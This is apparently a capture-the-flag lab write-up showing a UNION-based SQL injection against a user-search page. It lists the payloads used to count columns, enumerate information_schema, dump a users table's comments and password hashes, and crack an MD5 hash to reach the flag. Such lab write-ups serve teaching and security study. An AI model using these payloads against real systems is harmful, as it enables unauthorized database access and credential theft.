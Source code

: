 # member

We go to `/?page=survey`. We see an input that allows us to search for a user by its id.

We try a few different numbers. `5` yields something interesting :

```
ID: 5 
First name: Flag
Surname : GetThe
```

This looks like a classic SQL injection. We try the following exploit :

```
5 UNION SELECT 1
```

We get the error message `The used SELECT statements have a different number of columns`. This is normal : we need to figure out how many columns are returned by the section left of `UNION`.

We do this by adding to the `SELECT` : we try `SELECT 1`, `SELECT 1,2`, `SELECT 1,2,3`...

`SELECT 1,2` seems to work ; now we can start replacing the numbers with useful queries.

We try the following :

```
5 UNION SELECT table_name, column_name FROM information_schema.columns
```

We look for anything related to `member` or `user` ; we find information on the `users` table :

```
ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: 5 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

This tells us there's a `users` table, with the following fields :

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

We take a look at those last two using :

```
5 UNION SELECT Commentaire, countersign FROM users
```

The last user listed reads :

```
ID: 5 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

The comment seems to indicate we should decrypt the 'countersign'. It's an MD5. We decrypt it over at [MD5decrypt](https://md5decrypt.net/). We get :

```
FortyTwo
```

Following the instructions, we encrypt the lowercase version with SHA256 and get :

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```